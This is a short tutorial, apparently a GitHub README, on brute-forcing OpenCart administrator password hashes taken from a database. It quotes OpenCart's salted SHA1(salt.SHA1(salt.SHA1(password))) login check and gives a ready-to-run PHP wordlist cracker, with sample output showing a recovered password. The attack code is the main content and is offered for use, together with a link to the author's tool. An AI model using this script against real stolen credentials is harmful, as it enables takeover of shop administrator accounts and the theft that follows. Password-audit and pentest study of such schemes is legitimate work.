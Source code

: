 # Brute Force Attack In OpenCart Stored Passwords.
In this little tutorial I demonstrate how to perform a brute force attack based in word lists on passwords stored in OpenCart application databases.


## SCENERY:
- You have access to the database of an application that uses OpenCart.
- You query the Password Hash and Salt in the administrator table and you get the following result:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEM:
You are not familiar with the OpenCart password encryption system, so you will try to unmask this `hash` with brute force using services that are based on simple SHA1 encryption.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```


The problem is that `$password` is not simply a string encrypted with SHA1, or MD5, or SHA1 (MD5) ... Anyway, a usual brute-force script based on these encryption templates would hardly generate a` hash` equal to `hash` that you want to 'unmask'.

## SOLUCTION:
We need to create our own script that will search the hash string in the correct form.
And what would be the correct way?

SE CHECARMOS O ARQUIVO PHP QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

WE FIND THE FOLLOWING CODE:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

INTERESTING PART:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTING THE CODE WE HAVE:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: I ignored this part `OR password = '" . $this->db->escape(md5($password)) . "')` since we tested our hash and we already know that it is SHA1, right?


## Now we know how to encrypt the strings of our wordlist to compare with the hash found in the admin table.

A simple php script to test brute force on OpenCart passwords would look like this:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "PASSWORD: ".$string;} else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
PASSWORD: 12345
```

## Final considerations
- the attack I did was using word list, but you can implement for other tests. Use your imagination.
- If any word is wrong do not blame me, Blame the translator. I am Brazilian.

## Fonts:
- myself

## Test my tool
[opencript - OPENCART PASSWORD DECRYPTOR BASED ON WORD LIST](https://github.com/pabloverlly/open-cript)

###### _NEED ME? [pablov3rlly gmail com]_
